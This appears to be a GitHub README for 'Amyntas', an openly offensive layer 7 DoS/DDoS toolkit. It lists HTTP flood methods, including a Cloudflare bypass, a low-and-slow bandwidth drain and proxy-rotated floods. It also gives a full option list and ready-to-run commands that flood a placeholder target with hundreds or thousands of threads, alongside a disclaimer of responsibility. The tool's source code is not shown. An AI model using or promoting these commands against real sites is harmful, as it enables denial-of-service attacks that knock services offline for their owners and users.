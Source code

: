 ## NOTE!
Results may vary A LOT when attacking! <br>
It might peak at 40k rq/s and drop down to 2k rq/s or peak at 169 requests per second, just so you know! <bn>

--- 

### About
Amyntas is a layer 7 DoS/DDoS toolkit, with a variety of attack methods and the capability to bypass caching systems. <br>
Use at your own risk! I, the author, am not responsible for any harm you do! Keep that in mind!

<br>

Aviable methods
- `GET` (simple GET flood)
- `HEAD` (simple HEAD flood)
- `POST` (simple POST flood)
- `FAST` (a <strong>GET /</strong> flood)
- `GHP`/`GETHEADPOST` (a flood which randomly chooses GET, HEAD or POST as request method)
- `LEECH` (a low & slow HTTP GET flood which can drain A LOT of bandwith)
- `MIX` (a method which randomly chooses HTTP request methods)
- `BYPASS` (bypasses cloudflare)
- `PROXY` (attack which uses a proxy file to attack)

---

### Features
1. Proxy scraper
2. Cache bypassing mechanisms
3. Random headers (user agents, referers)
4. Real time "worker" system
5. Supports custom user-agent and referer
6. Proxy support (Rotating proxy support coming soon!)

---

### Known bugs/problems
1. None ATM :3

---

### To Do list
1. More methods
2. More documentation
3. Better exception handling
4. Maybe colors? lol

---

### Usage
All options:
```
-h, --help                             Show this help message and exit
-t TARGET, --target TARGET             Target URL (Example: https://google.com or http://pornhub.com)
-p PORT, --port PORT                   Target port (Leave empty to let the tool decide)
-d DURATION, --duration DURATION       Attack duration
--proxy-file FILE_PATH                 Path to proxies
--proxy PROXY                          Use a proxy when attacking (Example: 127.0.0.1:1337)
--proxy-type PROXY_TYPE                Set the proxy type (HTTP, SOCKS4 or SOCKS5)
--proxy-user PROXY_USER                Proxy username
--proxy-pass PROXY_PASS                Proxy password
--proxy-resolve                        Resolve host using proxy (needed for hidden service targets)
-rt, --rotate-proxies                  Wether we should rotate proxies (use with `--proxy-file`)
-ua USERAGENT, --user-agent USERAGENT  User agent to use when attacking, else its randomly chosen
-ref REFERER, --referer REFERER        Referer to use when attacking, else its randomly chosen
-w WORKERS, --workers WORKERS          Amount of workers/threads to use when attacking
-dbg, --debug                          Print info useful for debugging
-bc, --bypass-cache                    Try to bypass any caching systems to ensure we hit the main site
-m METHOD, --method METHOD             Method to use when attacking (default: GET)
-dfw, --detect-firewall                Detect if the target site is protected by a firewall
--http-version HTTP_VERSION            Set the HTTP protocol version (default: 1.1)
--scrape-proxies                       Wether to scrape a list of proxies first (set the type using `--proxy-type`)
--check-proxies FILE_LOCATION          Specify a file with proxies to check (set type using `--proxy-type`)
```

Basic usage:
```
python3 amyntas.py -t https://target.com
```

GET flood, attacking with 100 threads for 1337 seconds:
```
python3 amyntas.py -t https://target.com -w 700 -d 1337
```

POST flood, attacking with 700 threads for 40 seconds:
```
python3 amyntas.py -t https://target.com -w 700 -m POST -d 40
```

Proxified GET flood using a file with SOCKS5 proxies, with 1337 threads for 40 seconds
```
python3 amyntas.py --proxy-file socks5.txt --proxy-type SOCKS5 -t https://target.com -w 1337 -d 40 -m PROXY
```

Raw GET flood, using HTTP protocol version 430 with 999 threads for 999 seconds
```
python3 amyntas.py --http-version 430 -m GET -w 999 -d 999 -t https://target.com:420
```

---

### Requirements

```
requests
argparse
colorama
netaddr
cloudscraper
selenium
undetected_chromedriver
ssl
```

---

### Images
<p>3.8k GET flood using 2300 threads</p>

![image](https://user-images.githubusercontent.com/78029616/164300794-c4b850ba-37d0-41e0-a62f-53f7578ff731.png)